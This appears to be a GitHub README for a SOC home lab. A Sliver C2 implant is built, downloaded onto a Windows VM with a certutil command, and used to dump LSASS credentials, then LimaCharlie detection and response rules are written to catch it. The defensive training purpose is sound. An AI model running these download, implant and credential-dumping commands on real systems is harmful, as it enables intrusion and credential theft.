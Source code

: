# Purpose

In this foundational SOC Home Lab I spun up a Win11 vm as my victim client and disabled Windows Defender EDR. Set up a C2 framework using Sliver for emulating threat-actor behavior by crafting my very own malicious payload. Threw attacks, caught the detections and watched the malicious traffic. Set up automated D&R rules to mitigate these attacks.

Eric Capuano's Guide: https://blog.ecapuano.com/p/so-you-want-to-be-a-soc-analyst-intro?utm_campaign=post&utm_medium=web

### Setup:

First I spun up both virtual machines. The attack machine will run on Ubuntu Server, and the endpoint will be running Windows 11. In order for this lab to work smoothly I turned off all the Windows Security solutions (Virus & threat protection, Microsoft Defender Firewall, etc.) on the Windows 11 VM, making it my vulnerable victim machine. I am also going to be installing Sliver on the Ubuntu machine as my primary attack tool, and setting up LimaCharlie on the Windows machine as an EDR solution. LimaCharlie will have a sensor linked to the Windows machine, and will be importing sysmon logs.

### Skills Learned

- Advanced understanding of EDR concepts and practical application.
- Proficiency in analyzing and interpreting network telemetry.
- Ability to generate, deploy, transfer, and execute a Command & Control payload on the Windows endpoint using Sliver.
- Enhanced knowledge of Windows commands to gather information and assess system privileges.
- Familiarization with normal vs. anomalous activity to enhance threat detection capabilities.
- Development of critical thinking and problem-solving skills in cybersecurity.
- Understanding the process of performing hash scans on sites like VirusTotal to identify known malware. As well as understanding false negative results when dealing with a newly crafted payload.
- Detection rule creation and response implementation on a SecOps Cloud Platform such as LimaCharlie.


### Tools Used

- LimaCharlie EDR for endpoint detection and response capabilities,
monitoring and capturing telemetry, creating and applying detection rules.
- Sysmon integrated with LimaCharlie for detailed network logging and event capture on the Windows endpoint.
- VirusTotal used for scanning and analyzing the hash of executables to identify known malware.
- Sliver C2 Server for crafting and deploying a malicious payload.
- Utilizing Windows and Linux CLI

## Steps

*Ref 1: Windows Security controls off*

![image](https://github.com/user-attachments/assets/415b034b-db82-4da7-bdf9-88b55b2f52c3)

![image](https://github.com/user-attachments/assets/9d6597e1-a266-4ab8-8852-72c1754aeede)

![image](https://github.com/user-attachments/assets/0e89acb1-c5fe-4243-85f5-938961e2f978)

![Disabling WinDefender via Registry Editor](https://github.com/user-attachments/assets/4e244807-80e6-41bd-9445-be3569724400)

#### Now that my Windows machine is vulnerable, it's time to SSH into my Ubuntu AttackBox.

*Ref 2: Using PuTTY to connect via SSH*
![Screenshot 2024-09-02 113412](https://github.com/user-attachments/assets/97f91ab3-c686-439a-b0c2-6c7954162a34)

#### Once in my Ubuntu machine I use the _'sudo su'_ command to temporarily gain root access, navigate to the sliver directory and launch Sliver-server.

*Ref 3: Launching Sliver-server and generating C2 session payload*

![image](https://github.com/user-attachments/assets/bb40665c-01da-4dda-a41b-4d2cfb7b4e79)

Using the command _'generate --http 192.168.247.129 --save /opt/sliver'_, I generate a Command & Control payload executable.

![SLIVER C2 payload GOOD_TWINE](https://github.com/user-attachments/assets/a1d170c5-f92d-4f9b-b112-41a524bf70ec)

![GOOD_TWINE implant](https://github.com/user-attachments/assets/5409a0bf-3760-48b1-a7be-91e6f5fc16c3)

Running the command _'implants'_ above, you’ll see it has created my payload with the random name **GOOD_TWINE**. 
_We will be using this payload to infect the Windows machine in the next step..._

#### I exited Sliver and made sure I was in the sliver directory. 
To download the C2 easily from the Linux VM to the Windows VM I spun up a temporary web server using Python

_'python3 -m http.server 80'_

![image](https://github.com/user-attachments/assets/14db0600-1b15-4087-a406-707710d04588)

#### I switched my attention to the Windows VM and launched an Administrative PowerShell console.
Executing the command _'certutil.exe -f -urlcache http://192.168.247.129/GOOD_TWINE.exe GOOD_TWINE.exe'_ starts the download of my payload.

*Ref 4: Downloading C2 session payload onto victim machine via Python3 web server*

![Malware Staged 2](https://github.com/user-attachments/assets/8fd84d5e-a28e-48cd-a13f-abc199bb91e3)

*Ref 5: Payload execution and Sliver session connection*

![We are In!](https://github.com/user-attachments/assets/299b4831-809b-474f-8e88-d56db49344c5)

#### Now that we are hosting a live session between the two machines, I input the commands _'info' 'getprivs'_ and _'ps -T'_ to check my remote user privileges, information on the victim machine, and see the specific security products used.
_In this case my victim machine is using Sysmon64 and Windows Smart Screen_.

*Ref 6: Full remote access*

![Inside the Windows machine](https://github.com/user-attachments/assets/0352ae0d-93e0-47cb-ae54-c729b6974974)

![Checking user privs](https://github.com/user-attachments/assets/4bf919a8-2b4f-4892-88e2-3a1a14a2b577)

![Identifying running processes in remote system](https://github.com/user-attachments/assets/a5abe060-f99e-404f-a6fa-2422107eb357)

#### We can see processes like _SeDebugPrivilege_ and _SeImpersonatePrivilege_ are Enabled, which means we are logged in as Admin.

![Implant admin privs on Windows machine](https://github.com/user-attachments/assets/628cf8ab-4473-40b4-9a46-36a155edf91c)


### Now time to go into Lima Charlie to see the noise!

Using my host machine I click the sensors tab, to see that my Windows machine is online.

![LimaCharlie Win11 vm Sensor](https://github.com/user-attachments/assets/683eea85-3abc-4784-878d-6666f4e0c2f7)

We can look inside our LimaCharlie SIEM and see telemetry from the attack. We can identify the payload thats running and see the IP its connected to.

*Ref 7: LimaCharlie Processes and Network Detection Telemetry*

![Unusual NOT signed process hmm](https://github.com/user-attachments/assets/ee04912e-9120-4411-a4f0-007de47cc5f9)
![Network Logs of our attack](https://github.com/user-attachments/assets/3ecf5dd1-1a41-4f31-8aec-ebd87f6debe6)
![Timeline of Execution](https://github.com/user-attachments/assets/dcc8720a-b590-4373-aa7c-9c017b1fa2ca)


We can also use LimaCharlie to scan the hash of the payload through VirusTotal; however, it will yield no results since we just created the brand new payload ourselves!

![Virus NOT Detected](https://github.com/user-attachments/assets/8bea1003-0e8a-4de4-ac38-7e980d2d1379)

### Now to simulate an attack to steal credentials by dumping the LSASS memory. In LimaCharlie we can check the sensors, observe the telemetry, and write rules to detect this common cyber attack.

Using the _'procdump -n lsass.exe -s lsass.dmp'_ command, I save the remote processes from memory locally on Sliver C2 server. 

![image](https://github.com/user-attachments/assets/ae281d5b-8f7c-413a-bc5a-aa908d86a980)

#### _Let's see what this looks like in LimaCharlie and set up detection alerts._

*Ref 8: Detection Rule*

![Sensitive_Process_Event](https://github.com/user-attachments/assets/d5b08096-0c1f-40cb-af0b-c76b5e93873e)

![Detection Rule](https://github.com/user-attachments/assets/a3b65c2f-7d13-4e61-9f98-928f9c13ecdc)


#### Instead of just detecting attacks, we can use LimaCharlie to create a rule that both detects and responds, by blocking threats originating from the Sliver server. By simulating ransomware on the Ubuntu machine, such as attempting to delete volume shadow copies, we can monitor the telemetry in LimaCharlie and then implement a rule that completely stops the attack. Once this rule is active in our SIEM, any further attempts by the Ubuntu machine to carry out the same attack will be blocked.

*Ref 9: Response Rule Vss_deletion_kill_it*

![Deleting shadow volume copies (Ransomware attack)](https://github.com/user-attachments/assets/020b0796-18e6-483c-bceb-363944122ad7)

![Detection of Deleting shadow volumes](https://github.com/user-attachments/assets/a7d3f7fe-a332-409f-b6ae-0e3f90f1d121)

![Response Rule Vss_deletion_kill_it](https://github.com/user-attachments/assets/78032692-1303-4ec4-be96-7e5ab2fe805f)

*Ref 10: Forced remote shell exit*

![Forced shell exit](https://github.com/user-attachments/assets/8001d5a3-a31e-400a-8e6f-90584c8ae4f8)

### Summary

#### And there you have it! I’ve walked through the complete lifecycle of emulating, detecting, and blocking cyberattacks within a SOC Home Lab. From configuring a vulnerable Windows 11 VM and disabling security features to deploying and analyzing a malicious payload using the Sliver C2 framework, I got my hands dirty with the technical details. I didn’t just observe the attacks—I actively engaged in the process of crafting detection and response rules within LimaCharlie to monitor the telemetry and ultimately block the simulated threats.

